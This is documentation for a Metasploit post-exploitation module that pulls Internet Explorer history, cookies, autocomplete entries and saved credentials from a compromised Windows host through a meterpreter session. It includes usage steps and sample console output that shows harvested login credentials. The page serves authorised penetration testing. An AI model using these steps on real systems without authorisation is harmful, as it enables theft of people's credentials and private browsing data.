 ## Vulnerable Application

  This post-exploitation module will extract saved user data from Internet Explorer. For IE versions of 7 and newer the module will try to extract and decrypt saved credentials as well.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/enum_ie`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see the extracted IE browser data in the loot files

## Options

  - **SESSION** - The session to run the module on.

## Extracted data

  - History
  - Cookies
  - Autocomplete data
  - Credentials **(only for >= IE7)**
    - HTTP auth credentials
    - Saved form credentials

## Scenarios

  **Using the module with an earlier version than IE7 (IE6)**

  In this scenario the module won't be able to extract credential data.

  ```
  msf exploit(handler) > use post/windows/gather/enum_ie
  msf post(enum_ie) > set SESSION 1
  SESSION => 1
  msf post(enum_ie) > run

  [*] IE Version: 6.0.2900.5512
  [-] This module will only extract credentials for >= IE7
  [*] Retrieving history.....
          File: C:\Documents and Settings\user\Local Settings\History\History.IE5\index.dat
  [*] Retrieving cookies.....
          File: C:\Documents and Settings\user\Cookies\index.dat
  [*] Looping through history to find autocomplete data....
  [-] No autocomplete entries found in registry
  [*] Looking in the Credential Store for HTTP Authentication Creds...
  [*] Writing history to loot...
  [*] Data saved in: /home/user/.msf4/loot/20161031155122_default_10.0.2.15_ie.history_747359.txt
  [*] Writing cookies to loot...
  [*] Data saved in: /home/user/.msf4/loot/20161031155122_default_10.0.2.15_ie.cookies_795069.txt
  [*] Post module execution completed
  ```

  **Using the module with IE7+ (IE8)**

  In this scenario the module will try to extract credential data, display it in the console and save it in a loot file.

  ```
  msf exploit(handler) > use post/windows/gather/enum_ie
  msf post(enum_ie) > set SESSION 1
  SESSION => 1
  msf post(enum_ie) > run

  [*] IE Version: 8.0.7601.17514
  [*] Retrieving history.....
          File: C:\Users\IEUser\AppData\Local\Microsoft\Windows\History\History.IE5\index.dat
          File: C:\Users\IEUser\AppData\Local\Microsoft\Windows\History\Low\History.IE5\index.dat
  [*] Retrieving cookies.....
          File: C:\Users\IEUser\AppData\Roaming\Microsoft\Windows\Cookies\index.dat
          File: C:\Users\IEUser\AppData\Roaming\Microsoft\Windows\Cookies\Low\index.dat
  [*] Looping through history to find autocomplete data....
  [*] Looking in the Credential Store for HTTP Authentication Creds...
  [*] Writing history to loot...
  [*] Data saved in: /home/user/.msf4/loot/20161031201908_default_10.0.2.15_ie.history_555694.txt
  [*] Writing cookies to loot...
  [*] Data saved in: /home/user/.msf4/loot/20161031201908_default_10.0.2.15_ie.cookies_216987.txt
  [*] Writing gathered credentials to loot...
  [*] Data saved in: /home/user/.msf4/loot/20161031201908_default_10.0.2.15_ie.user.creds_355504.txt

  Credential data
  ===============

   Type           Url                                     User           Pass
   ----           ---                                     ----           ----
   Auto Complete  https://wordpresssite.net/wp-login.php  sampleUser     P455w0rd
   Auto Complete  https://wordpresssite.net/wp-login.php  sampleUser     P455w0rd

  [*] Post module execution completed
  ```

  The extracted history data would in both scenarios for example look like this:

  ```
  History data
  ============

   Date Modified              Date Accessed              Url
   -------------              -------------              ---
   2011-11-20T23:59:02+00:00  2011-11-20T23:59:02+00:00  about:Home
   2016-10-31T14:42:05+00:00  2016-10-31T14:42:05+00:00  http://go.microsoft.com/fwlink/?LinkId=54729&clcid=0x0407
   2016-10-31T14:42:06+00:00  2016-10-31T14:42:06+00:00  http://de.msn.com/?ocid=iefvrt
   2016-10-31T14:42:08+00:00  2016-10-31T14:42:08+00:00  http://www.microsoft.com/isapi/redir.dll?prd=ie&pver=6&ar=msnhome
   2016-10-31T14:42:23+00:00  2016-10-31T14:42:23+00:00  http://www.msn.com/de-de?ocid=iefvrt
   2016-10-31T14:47:42+00:00  2016-10-31T14:47:42+00:00  file:///E:/text.txt
  ```
